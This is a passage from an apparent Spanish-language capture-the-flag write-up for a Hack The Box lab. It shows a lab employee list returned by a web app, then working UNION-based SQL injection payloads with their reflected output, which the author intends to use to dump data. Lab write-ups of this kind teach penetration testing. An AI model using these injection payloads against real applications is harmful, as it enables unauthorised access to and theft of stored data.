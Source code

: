 ```null
          "src": "okent.jpg"
     },
     {
          "id": 8,
          "name": "Reya Martin",
          "position": "Tech Support",
          "email": "rmartin@megacorp.htb",
          "src": "rmartin.jpg"
     },
     {
          "id": 1,
          "name": "Sarina Bauer",
          "position": "Junior Developer",
          "email": "sbauer@megacorp.htb",
          "src": "sbauer.jpg"
     },
     {
          "id": 5,
          "name": "Shayna Stafford",
          "position": "HR Manager",
          "email": "shayna@megacorp.htb",
          "src": "shayna.jpg"
     },
     {
          "id": 9,
          "name": "Zac Curtis",
          "position": "Junior Analyst",
          "email": "zac@magacorp.htb",
          "src": "zac.jpg"
     },
     {
          "id": 14,
          "name": "Zachery Powers",
          "position": "Credit Analyst",
          "email": "zpowers@megacorp.htb",
          "src": "zpowers.jpg"
     }
]
```

Por lo que quiero pensar que tiene 5 columnas

Si aplico una selección y en la respuesta se ve reflejado algún número, me podría aprovechar de ese campo para dumpear datos

```null
-> ' union select 1,2,3,4,5-- -
null
```

Pero no me devuelve nada. Si introduzco una cadena al principio, la cosa cambia

```null
-> test' union select 1,2,3,4,5-- -
[
     {
          "id": 1,
          "name": "2",
          "position": "3",
          "email": "4",
          "src": "5"
     }
]
```
